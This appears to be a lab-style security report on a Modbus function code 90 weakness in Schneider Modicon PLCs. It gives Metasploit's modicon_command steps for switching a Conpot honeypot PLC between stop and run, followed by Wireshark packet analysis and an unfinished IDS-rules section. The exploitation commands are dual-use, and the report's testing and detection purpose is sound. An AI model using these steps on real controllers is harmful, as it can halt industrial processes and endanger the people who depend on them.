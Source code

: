# Overview

In this report, we will focus on modbus, the most widely used SCADA/ICS protocol. We will use Honeypot as the target.<br>

This Report provides:

* Mitigation details for a vulnerability affecting working status of PLC.
* Disclosure of exploit runs on ModBus protocol.
* Simulating an attack scenario against Scada Honeypot (Conpot)
* Modbus attack diagnostic functions in Wireshark
* Writing IDS rules to detect attack

The module used was written by K. Reid Wightman. Let's start with her saying that  "The exploit is otherwise reliable, but depends on a specific version and can't (or doesn't) reliably autodetect."

***

# Vulnerability Overview

#### Improper Input Validation

This module allows a remote user to change the status of the PLC between stop and run.


For this, this module sends a series of initialization requests.<br>


#### Vulnerability Details
The Schneider Modicon with Unity series of PLCs use Modbus function code 90 (0x5a) to perform administrative commands without authentication.

It communicates using ModBus, or Telnet over Ethernet as well as<br>

Having a web server built in that allows a user to issue commands.

##### _Explotability_

This vulnerability could be exploited remotely.

##### _Existence of Exploit_

Known public exploits specifically target this vulnerability.

##### _Difficulty_

An attacker with a medium skill would be able to exploit this vulnerability.



## Impact

Successful exploitation of this vulnerability would allow an attacker to end process control by the PLC, allowing the PLC to switch its state between stop and run. Thus, the attacker can create many problems depending on the PLC's function.<br>

Impact to individual organizations depends on many factors that are unique to each organization.

<br>

***

# Exploitation of Vulnerability
As we mentioned before, with this exploit; attacker can cause a denial of service of the system.

In order to exploit the vulnerability we need to download [Metasploit](https://github.com/rapid7/metasploit-framework)<br>

After downloading metasploit we can run it by typing;

```
# msfconsole
```

We can see the ModBus Frameworks' modules by typing;

```
# show all
```

```
# use /auxiliary/admin/scada/modicon_command
```

```
# show options
```

We have checked what parameters our exploit needs to run. This exploit needs;<br>

`RHOST` = remote host ip address,<br>


paramateres.

```
# set RHOSTS <ip>
```

After giving the parameters which are wanted we are ready to run it.

```
# exploit
```

As you can see above, dos attack has started.

***

# Packet Analysing
Run wireshark while exploit we’ve use running behind.
You see the blue part. This packet is the packet to the modbus protocol we want to analyze.

![alt text](https://github.com/ics-scada/Reports/blob/main/Modbus/Screenshots/wireshark1.png)

Double-clicking on the line will open the package content. 
<br>
If we click Ethernet II line the linked parts will be highlighted. And so we can see the address information and the name of the protocol used.

![alt text](https://github.com/ics-scada/Reports/blob/main/Modbus/Screenshots/wireshark2.png)

<br>
IP Header holds network layer information. Of these, it keeps the information of the IPv4 protocol, which is accepted as the backbone of the OSI model, in all its details.
<br>

![alt text](https://github.com/ics-scada/Reports/blob/main/Modbus/Screenshots/wireshrak3.png)

<br>
TCP, UDP, ICMP are important protocols of the transport layer of the OSI model given in the host-to-host connection. They play an important role in the error-free transmission of data. When it examines network layer information in Wireshark, you can see that TCP is used to communicate with the target device.
 
***

# Rules
As a result of using this module, an alarm as below was generated by the snort on the target machine.
```
# burada görüntü alarm olmalı 
```
<br>
Accordingly, we can say that there is a rule used for the modicon_command module on snort. The rules used are as follows.
```
# burada görüntü kural olmalı 
```


END
